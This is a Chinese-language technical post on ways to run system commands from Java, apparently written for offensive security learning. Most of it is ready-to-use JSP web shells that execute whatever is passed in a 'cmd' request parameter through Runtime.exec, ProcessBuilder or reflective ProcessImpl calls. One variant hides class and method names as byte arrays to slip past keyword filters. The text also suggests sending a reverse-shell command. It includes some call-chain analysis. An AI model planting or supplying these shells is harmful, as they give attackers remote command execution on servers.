


# 本地命令执行

## 前言

Java 原生提供了对本地系统命令执行的支持，浅浅记录几种不同的命令执行方式。

## Runtime命令执行

最为常见的命令执行方式就是通过`java.lang.Runtime`类的`exec`方法，无回显的代码示例如下：
```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd")) %>
```

无回显传反弹 shell 命令即可


修改命令回显：
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream bao = new ByteArrayOutputStream();
    byte[] bytes = new byte[1024];
    int a = -1;
    while((a = inputStream.read(bytes)) !=-1){
        bao.write(bytes, 0, a);
    }
    out.write(new String(bao.toByteArray()));

%>
```


跟踪分析`Runtime.getRuntime().exec()`源码，可以得到调用链如下（JDK8版本）：


```
java.lang.UNIXProcess.<init>                                        [UNIXProcess.java]
java.lang.ProcessImpl.start                                         [ProcessImpl.java]
java.lang.ProcessBuilder.start                                      [ProcessBuilder.java]
java.lang.Runtime.exec(String[] cmdarray, String[] envp, File dir)  [Runtime.java]
java.lang.Runtime.exec(String command, String[] envp, File dir)     [Runtime.java]
java.lang.Runtime.exec(String command)                              [Runtime.java]
org.apache.jsp.runtime_002dexec2_jsp._jspService                    [runtime_002dexec2_jsp.java]
```

因此，`exec()`方法是从`UNIXProcess`构造方法出发，经过一系列方法调用最终实现的命令执行，所以`exec()`方法并非命令执行的终点

## 反射Runtime命令执行

如果对`Runtime`关键字有过滤，可以通过反射进行绕过从而执行命令
```jsp
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %><%
    String str = request.getParameter("cmd");
    // 定义"java.lang.Runtime"字符串变量
    String jlr = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});
    // 反射Runtime类获取Class对象
    Class c = Class.forName(jlr);
    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));
    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);
    // 反射调用Runtim.getRuntime().exec()方法
    Object obj = m2.invoke(m1.invoke(null,new Object[]{}),new Object[]{str});

    // 反射获取Process类的getInputStream方法
    Method m3 = obj.getClass().getMethod(new String(new  byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m3.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    // \A为正则匹配，代表从字符串开头进行匹配
    Scanner s = new Scanner((InputStream) m3.invoke(obj, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";
    out.println(result);

%>
```

##  ProcessBuilder命令执行

前面我们已经知道`exec()`方法的调用链包含`ProcessBuilder`的`strat()`方法，因此我们也可以通过`processBuilder`来执行系统命令
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;
    while((a=in.read(b))!= -1){
        baos.write(b, 0, a);
    }
    out.write(new String(baos.toByteArray()));
%>
```


## UNIXProcess/ProcessImpl

在 JDK8 以后，将`UNIXProcess`合并到了`ProcessImpl`当中，我们可以再跟一下`exec()`的链对比前面的图看看，已经没有了`UNIXProcess`


因此`UNIXPeocess`和`ProcessImpl`此后可以看做一个东西，其最终调用了`native`执行系统命令的类，该类提供了一个名为`forkAndExec()`的`native`方法。`forkAndExec()`方法主要通过`fork&exec`来执行本地系统命令。

`ProcessImpl`类的`forkAndExec()`方法如下：

```java
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
        throws IOException;
```

## UNIXProcess/ProcessImpl反射命令执行

`ProcessImpl`类中没有共有的构造方法，所以不能直接实例化。我们可以通过反射去调用其中的静态方法`start()`

java 代码实现

```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.Map;

public class Main extends ClassLoader {
    public static void main(String[] args) throws Exception{
        Class cla = Class.forName("java.lang.ProcessImpl");
        Method method = cla.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        InputStream in = ((Process)method.invoke(null, new String[]{"ls"},null,null,null,false)).getInputStream();
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] b = new byte[1024];
        int a = -1;
        while ((a = in.read(b))!=-1){
            out.write(b,0,a);
        }
        System.out.println(out.toString());
    }
}
```

jsp 代码实现按照跟到的`ProcessImpl`类中的`start`方法写就可以了
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%!
    byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                result, 0,
                bytes.length);
        result[result.length-1] = (byte)0;
        return result;
    }
    InputStream start(String[] cmdarray) throws Exception{
        assert cmdarray != null && cmdarray.length > 0;

        // Convert arguments to a contiguous block; it's easier to do
        // memory management in Java than in C.
        byte[][] args = new byte[cmdarray.length-1][];
        int size = args.length; // For added NUL bytes
        for (int i = 0; i < args.length; i++) {
            args[i] = cmdarray[i+1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int i = 0;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        int[] envc = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};

        Class cla = Class.forName("java.lang.ProcessImpl");
        Constructor constructor = cla.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object = constructor.newInstance(toCString(cmdarray[0]), argBlock, args.length, null, envc[0], null, std_fds, false, false);
        Method method = cla.getDeclaredMethod("getInputStream");
        method.setAccessible(true);
        return (InputStream) method.invoke(object);
    }
%>
<%
    String[] cmd = request.getParameterValues("cmd");
    out.println("<pre>"+ new String(start(cmd).readAllBytes()) + "</pre>");
%>
```

